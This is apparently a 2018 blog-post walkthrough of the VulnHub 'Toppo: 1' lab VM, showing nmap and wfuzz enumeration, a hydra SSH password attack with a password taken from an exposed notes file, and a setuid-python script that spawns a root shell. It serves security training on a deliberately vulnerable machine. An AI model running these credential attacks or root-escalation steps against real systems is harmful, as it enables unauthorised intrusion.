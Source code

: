 ```yaml
---
layout: post
date: 2018-08-17 19:04:17 +0000
title: "Toppo: 1 Walkthrough"
subtitle: "Hakaishin Toppo?"
category: Walkthrough
tags: [VulnHub, Toppo]
comments: true
image:
  feature: toppo-1-walkthrough.jpg
  credit: Thomas-Suisse / Pixabay
  creditlink: https://pixabay.com/en/bomb-background-pattern-explode-1185726/
---
```


This post documents the complete walkthrough of Toppo: 1, a boot2root [VM][1] created by [Hadi Mene][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post 
{:.no_toc} 

* TOC 
{:toc}

## Background

There's no backstory for this VM. All we know is that it isn't hard to pwn and doesn't require advanced exploitation. The one "Toppo" I know is a character from Dragon Ball Super–God of Destruction candidate from Universe 11 :laughing:

## Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.30.130
...
PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 64 OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey:
|   1024 ec:61:97:9f:4d:cb:75:99:59:d4:c1:c4:d4:3e:d9:dc (DSA)
|   2048 89:99:c4:54:9a:18:66:f7:cd:8e:ab:b6:aa:31:2e:c6 (RSA)
|   256 60:be:dd:8f:1a:d7:a3:f3:fe:21:cc:2f:11:30:7b:0d (ECDSA)
|_  256 39:d9:79:26:60:3d:6c:a2:1e:8b:19:71:c0:e2:5e:5f (ED25519)
80/tcp    open  http    syn-ack ttl 64 Apache httpd 2.4.10 ((Debian))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Clean Blog - Start Bootstrap Theme
111/tcp   open  rpcbind syn-ack ttl 64 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          33198/udp  status
|_  100024  1          58751/tcp  status
58751/tcp open  status  syn-ack ttl 64 1 (RPC #100024)
```

`nmap` finds `22/tcp`, `80/tcp`, `111/tcp`, and `58751/tcp` open. As usual, I'll go for the web one first. Here's how it looks like.

![Clean Blog](/assets/images/posts/toppo-1-walkthrough/460c48a6.png)

### Directory/File Enumeration

I like `wfuzz` a lot. When it's combined with a quality wordlist like the ones in SecLists, you can uncover directories and files that will point you in the next direction.

```
# wfuzz -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 20 --hc 404 http://192.168.30.130/FUZZ
********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://192.168.30.130/FUZZ
Total requests: 4593

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

000011:  C=403     11 L	      32 W	    298 Ch	  ".htaccess"
000010:  C=403     11 L	      32 W	    293 Ch	  ".hta"
000012:  C=403     11 L	      32 W	    298 Ch	  ".htpasswd"
000190:  C=200     21 L	     172 W	   1093 Ch	  "LICENSE"
000437:  C=301      9 L	      28 W	    316 Ch	  "admin"
001232:  C=301      9 L	      28 W	    314 Ch	  "css"
002073:  C=301      9 L	      28 W	    314 Ch	  "img"
002094:  C=200    183 L	     465 W	   6437 Ch	  "index.html"
002250:  C=301      9 L	      28 W	    313 Ch	  "js"
002463:  C=301      9 L	      28 W	    315 Ch	  "mail"
002497:  C=301      9 L	      28 W	    317 Ch	  "manual"
003597:  C=403     11 L	      32 W	    302 Ch	  "server-status"
004261:  C=301      9 L	      28 W	    317 Ch	  "vendor"
```

Following the hint in `LICENSE`, it's not long before I found Blackrock Digital's GitHub [repository](https://github.com/BlackrockDigital/startbootstrap-clean-blog) for this BootStrap theme in Google.

![LICENSE](/assets/images/posts/toppo-1-walkthrough/727f2d5a.png)

Everything was identical to those listed in the repository except for `/admin`.

![/admin](/assets/images/posts/toppo-1-walkthrough/4bc414d0.png)

![/admin/notes.txt](/assets/images/posts/toppo-1-walkthrough/532aac6c.png)

### Hail Hydra

I also like `hydra` a lot. It's always my go-to weapon of choice for online password cracking and user validation. Let's give it a shot.

```
# hydra -L usernames.txt -p 12345ted123 -f -e nsr -o hydra.txt -t 4 ssh://192.168.30.130)
[22][ssh] host: 192.168.30.130   login: ted   password: 12345ted123
```

What's in `usernames.txt`, you ask?

```
# cat usernames.txt
root
admin
test
guest
info
adm
mysql
user
administrator
oracle
ftp
toppo
ted
```

I added `toppo` and `ted` for obvious reasons—`toppo` is the name of the VM while `ted` appears in `/admin/notes.txt`.

## Low-Privilege Shell

Now that I have the password of `ted`, let's log in to his SSH account.

![ted](/assets/images/posts/toppo-1-walkthrough/5603610a.png)

## Privilege Escalation

Again, using basic enumeration, I soon found the ticket to privilege escalation.

![python2.7](/assets/images/posts/toppo-1-walkthrough/7558c05c.png)

Since I have a `python` that's `setuid` to `root`, I can write a Python script like this.

<div class="filename"><span>makemeroot.py</span></div>

```python
import os

os.setuid(0)
os.setgid(0)
os.system("/bin/bash")
```

![root](/assets/images/posts/toppo-1-walkthrough/b08a64c9.png)

### Where's the Flag (WTF)

With `root`, getting the flag is trivial.

![Flag](/assets/images/posts/toppo-1-walkthrough/af5a0e51.png)

:dancer:

[1]: https://www.vulnhub.com/entry/toppo-1,245/
[2]: https://twitter.com/@h4d3sw0rm
[3]: https://www.vulnhub.com/
